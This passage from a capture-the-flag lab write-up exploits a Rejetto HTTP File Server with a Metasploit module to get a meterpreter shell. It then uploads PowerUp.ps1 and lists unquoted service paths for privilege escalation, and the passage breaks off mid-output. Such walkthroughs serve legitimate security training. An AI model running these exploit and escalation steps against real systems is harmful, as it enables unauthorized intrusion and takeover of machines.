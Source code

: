   Looking at the results we have another web server on port 8080, which we can check out below.
  ![upload8080page](3)

  We can see it is running `Rejetto HTTP File Server`. after doing a quick google search we find an exploit [here](4)
  Using `searchsploit Rejetto HTTP File Server` we see there is a metasploit module to exploit it. We can start with that then try manually exploitation.
  Loading up msf with `msfconsole` searching for the exploit with  `search rejetto` then loading up the exploit with `use exploit/windows/http/rejetto_hfs_exec` after that we set the correct RHOST and RPORT then `exploit`.

  We get the exploit to run and see with `getuid` that we are on the user `bill`. Navigate to his Desktop directory and we can find the flag! `b04763b6fcf51fcd7c13abc7db4fd365`

3. Privilege Escalation
  For privilege escalation we are using the common [PowerSploit Repo](5) and PowerUp.ps1 to see what
  options we have to escalate. First copy over the PowerUp.ps1 script to your current directory. Upload it via your meterpreter shell with `upload PowerUp.ps1`. After it uploads drop into a meterpreter powershell shell with  `load powershell` then run `powershell_shell` to drop into a PS Metasploit shell. Then load in the PowerUp.ps1 then Invoke-AllChecks like so
  ```
  meterpreter > upload PowerUp.ps1
[*] uploading  : PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : PowerUp.ps1 -> PowerUp.ps1
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

[*] Checking for unquoted service paths...
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
  ```